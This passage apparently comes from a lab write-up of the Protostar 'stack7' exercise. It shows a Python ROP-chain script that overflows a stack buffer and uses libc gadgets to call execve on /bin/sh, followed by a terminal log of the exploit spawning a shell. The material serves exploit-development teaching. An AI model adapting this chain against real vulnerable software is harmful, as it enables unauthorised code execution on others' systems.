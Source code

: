 |   pop $edx, ret      |  load EDX with NULL
+----------------------+
|   EBP = "BBBB"       |  Our overflow
+----------------------+
|   filler A's         |  
---------------------- +
//lower memory
{% endhighlight %}
Now we can put this all together with python

Python script (ropchain.py):
{% highlight python %}
#!/usr/bin/env python
from struct import pack

lib_base = 0x5558e000              #base of our library

syscall     = lib_base + 0x0002e725
zero_eax    = lib_base + 0x0002f0ec
set_eax     = lib_base + 0x001454c6
pop_ecx_ebx = lib_base + 0x000f9482
pop_edx     = lib_base + 0x00001aa2
binsh_loc   = 0x556ee84c
null_val    = '\x00\x00\x00\x00'

#struct pack returns a string containing values packed in a certain format
#'<I' makes them little endian unsigned int's
#see here for more details https://docs.python.org/2/library/struct.html

p = 'a'*76    #fill buffer          #build our stack
p += 'bbbb'    #overflow ebp
p += pack('<I', pop_edx)    #pop edx; ret
p += null_val               #EDX = 0
p += pack('<I', pop_ecx_ebx)    #pop ecx; ret
p += null_val
p += pack('<I', binsh_loc)
p += pack('<I', zero_eax)
p += pack('<I', set_eax)
p += pack('<I', syscall)

print (p)                          #for simplicity I just printed the value

{% endhighlight %}

Now we use our cat trick to keep stdin open and get our shell!

winning command:
{% highlight shell %}
le91688:~/workspace/proto (master) $ ulimit -s unlimited   <--- ensure lib randomization is off
le91688:~/workspace/proto$ python ./ropchain.py 
le91688:~/workspace/proto$ (cat testrop; cat) | ./stack7
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaXUaaaaaaaabbbbXU
ls
LIBCgadgets             format0          format3    heap4.asm    stack0.s          stack3exploit.py    ...
whoami
ubuntu
{% endhighlight %}
